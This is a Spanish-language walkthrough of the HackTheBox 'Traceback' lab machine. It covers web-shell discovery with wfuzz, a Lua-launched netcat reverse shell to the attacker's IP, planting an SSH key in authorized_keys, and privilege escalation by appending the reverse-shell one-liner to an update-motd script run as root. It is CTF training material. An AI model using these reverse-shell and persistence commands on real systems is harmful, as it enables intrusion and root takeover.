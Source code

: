 ```yaml
---
title: HTB-TRACEBACK
author: Christian Gutierrez
date: 2020-11-19 14:10:00 -0500
categories: [HackTheBox, Medium]
tags: [HTB, SSH, NodeJS]
image: /assets/htb/01_traceback/portada.PNG
---
```

## Decripción del entorno
### <span style="color:green">Atacante</span>
|:------------|:---------------|
| OS          | Kali Linux     |
| IP          | 10.10.15.14    |
### <span style="color:green">Maquina Objetivo</span>
|:------------|:--------------------|
| OS          | Linux               |
| IP          | 10.10.10.181        |
| Dificultad  | 4.8/10 / **Medium** |
| URL         | [**TraceBack**](https://www.hackthebox.eu/home/machines/profile/233)    |

## Enumeración
Se realiza la enumeración habitual para el reconocimiento e identificación de los puertos abiertos en el sistema: 
```console
$ nmap -sS -sV -sC -oN nmap_traceback 10.10.10.181
```
![Escaneo con Nmap](/assets/htb/01_traceback/01_nmap_scan.png)
_Resultado escaneo con nmap_

Se accede al puerto 80 y se infiere por contexto que el servidor ya tiene un WebShell, la cual hay que utilizar para continuar con el proceso de explotación. 
![Puerto 80](/assets/htb/01_traceback/02_puerto_80.png)
_Pagina web desplegada en el puerto 80_

Se saca un listado de las WebShell más conocidas <https://github.com/TheBinitGhimire/Web-Shells>, y se realiza un barrido utilizando **wFuzz** para identificar si alguna se encuentra persistente en el servidor: 
```console
$ wfuzz -w htb/01_traceback/webshells.dict --hc 404 http://10.10.10.181/FUZZ
```
Resultado: 
- cmd.php
    - Parametro: ?cmd=**COMANDO**
- smevk.php
    - User: **admin**
    - Password: **admin**

Una vez identificadas, se procede a validar el usuario y los privilegios que se tienen para la ejecución de comandos.
![WebShell Básica](/assets/htb/01_traceback/03_cmd_comandos_basicos.png)
_Usando shell cmd.php con comandos pwd, whoami e ifconfig_

### Usuarios de bajos privilegios
- webadmin [**Hacked**]
- sysadmin

Por medio de los Sudoers desde el usuario **webadmin** vemos que tenemos permisos para ejecutar un comando como el usuario **sysadmin**:
```console
$ sudo -l 
/home/sysadmin/luvit
```
De lo anterior se identifica que [luvit](https://luvit.io/) corresponde a un servicio **NodeJS** para el lenguaje **Lua** por lo que conserva su sintaxis y además es posible utilizarlo para ejecutar scripts **.lua** diseñados por nosotros; vamos a utilizar el metodo `os.execute()` que nos permite ejecutar comandos de sistema operativo en [LUA](https://stackoverflow.com/questions/13270346/lua-os-execute-does-not-work)

## Explotación

Una vez identificado el vector de ataque, vamos a utilizar una Shell reversa con **nc** a través de la ejecución privilegiada de `/home/sysadmin/luvit`, por lo que creamos el siguiente archivo **lua** en el directorio `/tmp/`:

```lua
os.execute("rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf")
```

Ejecutamos el archivo con los privilegios de **sysadmin** de la siguiente manera: 
```console
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/d.lua
```
Recibimos la conexión inversa mediante **NetCat**:
```console
$ nc -nvlp 4545
```
![Reverse Shell](/assets/htb/01_traceback/04_reverse_shell.png)
_Reverse Shell con privilegios del usuario sysadmin_

Aunque ya tenemos la shell con los privilegios **Sysadmin** que nos permiten la lectura de la flag `user.txt`, es más comodo poder conectarnos directamente al servicio SSH (22), para así tener más estabilidad y propiedades en la consola; para lograr esto, debemos agregar nuestra **llave pública SSH** al archivo `authorized_keys` del servidor victima, de esta manera, sin proporcionar credenciales podemos acceder a este. 
```console
$ echo “test” >> authorized_keys
Permission denied
```
Como no podemos realizarlo desde la shell que tenemos actualmente, creamos otro archivo **.lua** que cambie los privilegios del archivo "" y agregue nuestra key: 
```lua
file = io.open("/home/sysadmin/.ssh/authorized_keys", "w")
file:write("ssh-rsa AAAAB3NzaC1yc2EAAAADA/.../zWoMYWXUF8ZIOQp0= csl@support")
file:close()
```
Ejecutamos el nuevo script **LUA**: 
```console
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/d2.lua
```
Y accedemos al servidor mediante **SSH**: 
```console
$ ssh sysadmin@10.10.10.181
```
![SSH](/assets/htb/01_traceback/05_ssh_access.png)
_Acceso por SSH al usuario Sysadmin_

## Elevación de privilegios

Revisando los procesos en ejecución del sistema `ps aux`, vemos que el usuario root realiza la ejecución recurrente del siguiente comando. 
```console
$ /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```
Lo que inicialmente parece una copia de archivos normal entre directorios cada 30 segundos, nos revela una pista en los permisos del directorio `/etc/update-motd.d/`:
![SSH](/assets/htb/01_traceback/06_priv_etc_update.png)
_Permisos del directorio /etc/update-motd.d/_

Y recordemos que dicho directorio corresponde a los scripts de personalización de inicio o acceso mediante **SSH**, así pues, cada uno de esos script’s mostrará información o será ejecutado por el usuario **root** cuando alguien se conecta mediante **SSH**. De esta manera, si logramos algún cambio en estos scripts, lo podremos activar mediante el acceso a SSH que tenemos del usuario **Sysadmin**. 

Considerando lo anterior, agregamos el comando para que cuando se ejecute nos permita una conexión inversa a nuestro equipo, por el puerto 4545. 
```console
$ echo "rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf" >> /etc/update-motd.d/00-header
```
Una vez realizado, accedemos al servicio **SSH** con el usuario **Sysadmin** (para activa nuestro payload) y a su vez, recibimos la conexión inversa en nuestro equipo, esta vez con privilegios de **root**. 

Otra forma de acceder sin utilizar la shell reversa, implicaría el mismo principio de habilitar nuestras llaves en el servicio **SSH** del usuario **root**: 

```console
sysadmin@traceback:/etc/update-motd.d$ echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> 00-header 
```

Bytez ;)